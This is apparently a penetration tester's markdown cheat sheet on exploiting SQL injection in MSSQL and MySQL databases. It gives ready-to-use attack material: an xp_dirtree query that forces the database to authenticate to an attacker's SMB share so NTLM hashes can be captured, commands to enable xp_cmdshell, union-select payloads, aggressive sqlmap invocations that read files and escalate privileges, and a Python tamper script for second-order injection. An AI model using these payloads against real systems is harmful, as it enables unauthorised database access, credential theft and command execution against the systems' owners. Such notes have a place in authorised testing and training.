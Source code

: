 # Exploiting SQL Injections

## Manual

### MSSQL
There is a cool trick to get hashes out of mssql databases that sqlmap can not perform itself. Run admin/mssql/mssql_ntlm_stealer_sqli and at the same time run server/capture/smb. The SQL Injection will try to access an UNC-Path and therefore send us the authentcation. Sometimes the capture module fails and responder is required instead. What the nlm_stealer does is just issue dir_tree `master..xp_dirtree '\\<ip>\<db>';` to an attacker box share (must not exist).

MSSQL ist often vulnerable to stacked queries e.g. `union select 1,2,3,(select * from users.txt),5`

Useful mssql commands:

```sql cheat mssql connect to mssql server via sqsh
sqsh -S <ip> -U '<domain\<user>'
```

```sql cheat mssql enable xp_cmdshell (might need to prefix with EXEC) 
sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```
```sql cheat mssql dirtree (get ntlm hashes with responder or enumerate local filesystem with \\<localip>\c$)
master..xp_dirtree '\\<attackerip>\<non-existing share>';
```

```sql cheat mssql use sqlmap to connecto to mssql db and dump tables
sqlmap -d 'mssql://<domain>\<user>:<password>@<ip>:1433/<dbname>' --tables
```

### MYSQL
Start by causing an error by inserting special chars like `'`, then try to mitigate the error by adding comments like this this: `')-- -`.

#### Union Based
Guess the number of columns in the original query by using a union select which uses the same number of columns:
```
') union select 1 -- -
') union select 1,2 -- -
```
Also note which numbers might be displayed on the website (check source). Try replacing the ones that are displayed with build-in functions like @@version or version()

Try to retreive table and column information from information schema to make further queries. If length restricted try to guess them.

## Automated

### SQLMap
Default Command:
```bash cheat sqlmap Default Command
sqlmap -r <request copied from burp> --level 5 --risk 3 --dbms <mysql or mssql> --batch
```
If its a url based injection the injection point must be specified with `*` like in `sqlmap -u <IP>/users/*`. TO save some time it is advised to tell it which technique to use (in most cases `--technique=U` for union based)

To cope with second order sql injections it tamper scripts can be used (think of username on registration contains injection vunerablity, gets stored to database and is only executed in a vunlerable query after loggin into the application later). Example Tamper Script:

```cheat sqlmap Tamper Script
#!/usr/bin/env python
import requests
import re
from lib.core.enums import PRIORITY
from random import sample
__priority__ = PRIORITY.NORMAL

proxies = {
    "http": "http://127.0.0.1:8080",
}

def dependencies():
    pass

def create_account(payload):
    session = requests.Session()
    post_data = {'username':payload,'password':'<pass>','confirm_password':'<pass>'}
    session.post("http://<ip>/register.php", data=post_data, proxies=proxies)

def tamper(payload, **kwargs):
    create_account(payload)
    return payload
```
You have to implement the tamper function. To use it add --tamper=<filename> to the command line.

Dont ever use `-a` on sqlmap - it takes forever and doesnt give more usefull info than you can retrieve via --tables or --dump. 

SQLMap can also be used with credentials:
`sqlmap -d 'mssql://<user>:<pass>@<ip>:1433/<dbname>' --dump`


```bash cheat sqlmap using credentials
sqlmap -d 'mssql://<user>:<pass>@<ip>:1433/<dbname>' --dump
```

```bash cheat sqlmap downloading files
sqlmap -d 'mssql://<domain>\<user>:<pass>@<ip>:1433/volume' --priv-esc --file-read='<full path>'
```

tags: #sql #injection #sqlmap #tamper 
